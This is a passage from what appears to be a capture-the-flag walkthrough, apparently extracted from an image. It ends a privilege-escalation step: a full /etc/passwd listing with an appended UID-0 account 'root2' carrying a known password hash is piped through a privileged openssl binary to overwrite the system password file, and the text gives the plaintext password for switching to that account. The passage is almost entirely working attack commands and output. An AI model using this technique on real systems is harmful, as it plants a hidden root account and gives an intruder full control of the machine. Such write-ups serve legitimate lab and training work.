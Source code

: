 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
avahi:x:115:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:116:121:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:117:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:118:122::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:119:123:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
system:x:1000:1000:system,,,:/home/system:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
mysql:x:122:127:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:123:65534::/run/sshd:/usr/sbin/nologin
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" | ./openssl enc -out "/etc/passwd"
```

In this case, root2's password is mrcake. Just su to root2 and get the last flag.

